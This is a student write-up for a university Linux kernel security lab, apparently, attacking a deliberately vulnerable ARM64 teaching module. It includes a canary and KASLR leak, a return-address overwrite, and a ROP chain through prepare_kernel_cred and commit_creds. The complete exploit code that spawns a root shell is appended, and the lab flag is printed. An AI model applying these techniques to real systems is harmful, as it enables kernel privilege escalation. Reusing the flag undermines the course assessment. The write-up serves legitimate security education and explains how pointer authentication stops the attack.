## ROP | Linux内核攻防

> Link: https://zjusec.gitee.io/syssec23-stu/lab2/

### 一、Task1：绕过stack canary和KASLR

1. 首先根据实验指南，当我们`read`时，读取的是全局变量`prev_cmd`，而当我们`write`的时候，会将`buffer`先赋值给`cmd`，再将`cmd`赋值给`prev_cmd`；在`zjubof_write4`中，看似对`cmd.length`作出了限制，但是并没有对`len`作出限制，因此存在overflow漏洞，可以通过溢出修改`cmd.length`，进而将`canary/oldfp/ra`读到`prev_cmd`中

````c
ssize_t zjubof_write4(char *buffer,size_t len)
{
    struct cmd_struct cmd;   
    printk("zjubof_write4\n");
    memset(cmd.command, 0, 16);
    cmd.length = len;
    if(cmd.length > 16)
        cmd.length = 16;
    memcpy(cmd.command, buffer, len);
    memcpy(prev_cmd,cmd.command, cmd.length);
    printk("cmd :%s len:%ld\n", cmd.command,len);
    return 0;
}

ssize_t zjubof_write3(char *buffer,size_t len)
{
    printk("zjubof_write3\n");
    zjubof_write4(buffer, len);
    return 0;
}
````

函数调用栈如下所示：




2. 触发buffer overflow的核心在于：

```c
if(cmd.length > 16)
    cmd.length = 16;
// 尽管程序对于cmd.length作出了限制，但是并没有对len进行限制
memcpy(cmd.command, buffer, len); // 通过buffer覆盖cmd.length
// 此时cmd.length被修改，prev_cmd可以读取到canary/lr信息
memcpy(prev_cmd,cmd.command, cmd.length); 
```

因此我们可以构造buffer如下：



`buf[49] = "0123456789ABCDEF\x30"`，49 = 48 + 1,48为需要泄露的字节数，1为buf末尾的`\0`

3. 进而我们可以泄露`canary/lr/oldfp`，由于`lr(ra)`保存的是`zjubof_write2`中调用`zjubof_write3`之后的返回地址，反汇编`zjubof_write2`得到无偏移的RA，再与开启KASLR的`lr(ra)`相减即可得到偏移



关键代码如下:

```c
const size_t RAWithoutKASLR = 0xffff800010de7d0c;

char canaryStr[8]; // canary
char oldFPStr[8]; // fp of zjubof_write2 
char oldRAStr[8]; // ra of zjubof_write3 -> zjubof_write2

size_t getOffset(int fd) {
    size_t len = 0; 

    char buf[49] = "0123456789ABCDEF\x30"; // cmd.command = "0123456789ABCDEF", cmd.length = 0x30

    len = write(fd, buf, 24); // // 16 + 8 B
    len = read(fd, buf, 48); // CMD_LENGTH = 49, len < 49
    
    memset(canaryStr, '\0', sizeof(canaryStr));
    memcpy(canaryStr, buf+24, 8);
    
    memset(oldFPStr, '\0', sizeof(oldFPStr));
    memcpy(oldFPStr, buf+32, 8);

    memset(oldRAStr, '\0', sizeof(oldRAStr));
    memcpy(oldRAStr, buf+40, 8);

    size_t canary = *(size_t *) canaryStr;
    size_t oldFP = *(size_t *) oldFPStr;
    size_t oldRA = *(size_t *) oldRAStr;

    size_t offset = oldRA - RAWithoutKASLR;
    
    return offset;
}
```

4. 结果



至此，我们成功泄露了canary和offset，之后就可以通过偏移量绕过`KASLR`

### 二、Task2: 修改return address，获取 root 权限

1. Task2要求我们修改`ra`，跳转到`first_level_gadget`，由`first_level_gadget`实现提权；我们先反汇编一下`first_level_gadget`，发现第一行代码修改了`sp`，而修改`ra`后返回时，`sp`已经被设置好了，如果此时跳转到第一行，`sp`再次被修改，就会导致栈空间出错，进而导致程序出错，因此需要跳到第二行



2. 分析函数调用时`sp`的变化

- `zjubof_write` call `zjubof_write2`:

```assembly
sp = sp - 220
# ...
sp = sp + 220
```

- `zjubof_write2` call `zjubof_write3`:

```assembly
sp = sp - 32
# ...
sp = sp + 32
```

- `zjubof_write3` call `zjubof_write4`:

```assembly
sp = sp - 80
# ...
sp = sp + 80
```

当我们覆盖返回地址跳转到`first_level_gadget`时，`sp+80`和`sp+32`已经被执行，此时的`sp[0]`和`sp[8]`分别指向`zjubof_write`的`oldfp(x29)`和`ra(x30)`，在`first_level_gadget`中无需再将`x29`和`x30`压栈，同时为了在`first_level_gadget`执行完后能够正确返回到`zjubof_write`，需要手动添加指令将`sp+220`

3. 分析得到栈空间如下，并构造buffer



buffer的前24字节和Task1是一样的，但是需要将Task1中得到的`canary/oldfp`填入buffer的24-40字节，然后将新的返回地址填入40-48字节

4. 关键代码及结果

```c
void hackUsingFirstLevelGadget(int fd, size_t offset) {

    char buf[49] = "0123456789ABCDEF\x30";

    size_t newRA = RAToFirstLevelGadget + offset;

    memcpy(buf + 24, canaryStr, 8);
    memcpy(buf + 32, oldFPStr, 8);
    memcpy(buf + 40, (char*)&newRA, 8);
    
    write(fd, buf, 48);

    system("/bin/sh"); 

    return;
}
```



**flag：**sysde655sEc

### 三、Task3: ROP 获取 root 权限

1. 这次我们需要使用ROP进行提权，函数调用栈为

```c
zjubof_write4 -> zjubof_write3->prepare_kernel_cred->commit_creds->second_level_gadget
into zjubof_write3: sp = sp - 32
leave zjubof_write3: sp = sp + 32
into prepare_kernel_cred: sp = sp - 32
leave prepare_kernel_cred: sp = sp + 32
into commit_creds: sp = sp - 48
leave commit_creds: sp = sp + 48
into second_level_gadget: sp = sp
leave second_level_gadget: sp = sp + 464
```

2. 根据函数调用栈，得到栈布局



3. 构造buffer如下

```c
buf.length = 160 + 1 (160 B + '\0')
buf[24 ... 30] = canary
buf[40 ... 48] = RA of prepare_kernel_cred
buf[72 ... 80] = RA of commit_creds
buf[104 ... 112] = RA of second_level_gadget
buf[152 ... 160] = RA of zjubof_write
```

各个ROP的跳转地址分别为：

RA of prepare_kernel_cred: 0xffff8000100a6214



RA of commit_creds: 0xffff8000100a5f6c



RA of second_level_gadget: 0xffff8000107abdb0（因为第一条指令不改变sp，因此可以直接跳 ）



RA of zjubof_write: 0xffff8000107abe54



4. 关键代码及结果

```c
void hackUsingROP(int fd, size_t offset) {
    char buf[161];
    memset(buf, '\0', sizeof(buf));

    memcpy(buf + 24, canaryStr, 8);

    size_t prepareKernelCredRA = RAOfPrepareKernelCred + offset;
    memcpy(buf + 40, (char*)&prepareKernelCredRA, 8);

    size_t commitCredsRA = RAOfCommitCreds + offset;
    memcpy(buf + 72, (char*)&commitCredsRA, 8);

    size_t secondLevelGadgetRA = RAOfSecondLevelGadget + offset;
    memcpy(buf + 104, (char*)&secondLevelGadgetRA, 8);

    size_t ZJUBofWriteRA = RAOfZJUBofWrite + offset;
    memcpy(buf + 152, (char*)&ZJUBofWriteRA, 8);

    write(fd, buf, 160);
    
    system("/bin/sh"); 
    
    return;
}
```



**flag：**sysde655sEc

### 四、Task4: Linux内核对 ROP 攻击的防护

1. 编译运行，之后执行exp

```bash
# 编译内核
export ARCH=arm64
make CROSS_COMPILE=aarch64-linux-gnu- defconfig
make CROSS_COMPILE=aarch64-linux-gnu- menuconfig
make CROSS_COMPILE=aarch64-linux-gnu- -j$(nproc)
# 将vmlinux精简成Image
aarch64-linux-gnu-objcopy -O binary vmlinux Image --strip-all
./start.sh
```

发现出现段错误



2. 查看汇编代码，发现相比之前多了`paciasp`和`autiasp`这两个指令



这两个指令由ARM PA机制引入，这是一种指针认证的方式。其通过在存储指针之前向未使用的高位添加加密签名来工作，这也被称为指针认证码（PAC）。`paciasp`用于在存储指针值之前生成并插入指针认证代码（PAC），而`autiasp`则用于在从内存读回后验证并删除指针值中的PAC。这种机制可以保证在写入和读取指针之间对指针值的任何更改都会使签名无效，进而CPU会将身份验证失败解释为内存损坏，并设置指针中的高位，使该指针无效并导致应用程序崩溃。



总结来说，在进入函数的时候，栈上存储的不再是返回地址，而是附带着加密后的返回地址，在离开函数时会校验这个地址的合法性，如果合法即未被篡改函数才能正常返回；同时由于攻击者无法得知密钥以及加密算法，因此攻击者无法构造出加密后的返回地址进行`buffer overflow`，也就无法进行 ROP 攻击

### 五、思考题

1. 为什么linux canary的最低位byte总是 `\00`？

保证内存对齐，可以提高内存访问效率；同时可以将其当做字符串的终止符，防止canary的泄露

2. 在ARM64的ROP中，在 `zjubof_write4`中overflow覆盖到的返回地址，会在 什么时候/执行到哪个函数哪一行的时候被load到pc寄存器？

会在`zjubof_write3`的`return 0;`，也就是在`zjubof_write3`汇编的`ldp x29, x30, [sp], #32`行，`x29`和`x30`被更新，然后执行`ret`时load到pc寄存器

3. 在Task2中，为什么在exp中直接覆盖返回地址为 `first_level_gadget` 的汇编第一行地址，会造成kernel在运行到这一行的时候产生panic？并写出造成这个panic的触发链

当跳转到`first_level_gadget`且尚未执行其中的汇编时，栈空间如下所示



此时`zjubof_write3`和`zjubof_write4`部分的栈空间已经被释放，可以看到`sp`已经指向了栈底，同时`x29`和`x30`寄存器的值已经是被正确压栈了，此时我们如果跳到第一行，则又会将`x29和x30`压栈，而此时的`x29`和`x30`寄存器保存的是`first_level_gadget`的中的返回地址和旧栈帧，也就是下面这样



当`first_level_gadget`执行完成后，会首先更新`x29`和`x30`，正常情况下会跳回`zjubof_write1`，并将`sp+220`进而恢复`sp`，而现在则会再次跳到`first_level_gadget`，同时`sp+220`也会更新到错误的地方，之后就是重复的再次跳到`first_level_gadget`，同时`sp+220`错误的更新，直到stack overflow

4. Linux 内核是如何利用 ARM PA 来防御 ROP 攻击的

见Task4中的分析


附exp.c完整代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

const size_t RAWithoutKASLR = 0xffff800010de7d0c;
const size_t RAToFirstLevelGadget = 0xffff8000107abd7c;

const size_t RAOfPrepareKernelCred = 0xffff8000100a6214;
const size_t RAOfCommitCreds = 0xffff8000100a5f6c;
const size_t RAOfSecondLevelGadget = 0xffff8000107abdb0;
const size_t RAOfZJUBofWrite = 0xffff8000107abe54;

char canaryStr[8];
char oldFPStr[8]; // fp of zjubof_write2 
char oldRAStr[8]; // ra of zjubof_write3 -> zjubof_write2

size_t getOffset(int fd) {
    size_t len = 0; 

    char buf[49] = "0123456789ABCDEF\x30"; // cmd.command = "0123456789ABCDEF", cmd.length = 0x30

    len = write(fd, buf, 24); // // 16 + 8 B
    len = read(fd, buf, 48); // CMD_LENGTH = 49, len < 49

    
    memset(canaryStr, '\0', sizeof(canaryStr));
    memcpy(canaryStr, buf+24, 8);
    
    memset(oldFPStr, '\0', sizeof(oldFPStr));
    memcpy(oldFPStr, buf+32, 8);

    memset(oldRAStr, '\0', sizeof(oldRAStr));
    memcpy(oldRAStr, buf+40, 8);

    size_t canary = *(size_t *) canaryStr;
    size_t oldFP = *(size_t *) oldFPStr;
    size_t oldRA = *(size_t *) oldRAStr;

    printf("canary = 0x%lx\n", canary);
    printf("oldFP = 0x%lx\n", oldFP);
    printf("oldRA = 0x%lx\n", oldRA);

    size_t offset = oldRA - RAWithoutKASLR;
    printf("offset = 0x%lx\n", offset);
    
    return offset;
}

void hackUsingFirstLevelGadget(int fd, size_t offset) {

    char buf[49] = "0123456789ABCDEF\x30";

    size_t newRA = RAToFirstLevelGadget + offset;

    memcpy(buf + 24, canaryStr, 8);
    memcpy(buf + 32, oldFPStr, 8);
    memcpy(buf + 40, (char*)&newRA, 8);
    
    write(fd, buf, 48);

    system("/bin/sh"); 

    return;
}

void hackUsingROP(int fd, size_t offset) {
    char buf[161];
    memset(buf, '\0', sizeof(buf));

    memcpy(buf + 24, canaryStr, 8);

    size_t prepareKernelCredRA = RAOfPrepareKernelCred + offset;
    memcpy(buf + 40, (char*)&prepareKernelCredRA, 8);

    size_t commitCredsRA = RAOfCommitCreds + offset;
    memcpy(buf + 72, (char*)&commitCredsRA, 8);

    size_t secondLevelGadgetRA = RAOfSecondLevelGadget + offset;
    memcpy(buf + 104, (char*)&secondLevelGadgetRA, 8);

    size_t ZJUBofWriteRA = RAOfZJUBofWrite + offset;
    memcpy(buf + 152, (char*)&ZJUBofWriteRA, 8);

    write(fd, buf, 160);
    
    system("/bin/sh"); 
    
    return;
}

int main(int argc, char *argv[])
{   
    int fd = open("/dev/zjubof", O_RDWR);
    
    size_t offset = getOffset(fd);

    hackUsingFirstLevelGadget(fd, offset);

    // hackUsingROP(fd, offset);

    return 0;
}
```

